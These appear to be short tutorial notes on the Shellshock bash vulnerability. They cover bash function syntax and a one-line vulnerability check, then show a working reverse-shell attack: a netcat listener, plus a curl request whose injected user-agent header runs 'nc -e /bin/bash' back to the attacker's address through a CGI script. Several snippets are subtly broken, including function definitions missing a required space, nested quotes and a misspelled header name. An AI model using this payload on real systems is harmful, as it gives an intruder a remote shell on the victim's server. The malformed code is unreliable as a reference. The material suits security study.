 # Shellshock

### Bash functions

* Can be defined in "one liners"


```
$ welcome() {echo "Hi $USER"; }
```

Type welcome:

```
$ welcome
```

Output:
> Hi user

* Can be defined in environment variables



```
$export hellofunc="() {echo "Hi $USER"}"

```

```
$bash -c 'hellofunc'
```

### Shellshock

> env val='() { : ;}; echo vulnerable' bash -c "echo test"


### Exploit Shellshock to gain a Shell

#### Turn on a netcat listener on attacker machine


> netcat -nlvp 443




#### Use curl send a request



> curl -H "user agent: () { : ;};echo;/bin/nc -e /bin/bash [yourIPaddress] 443" [targetIPaddress]/cgi-bin/vulnerable.cgi
 





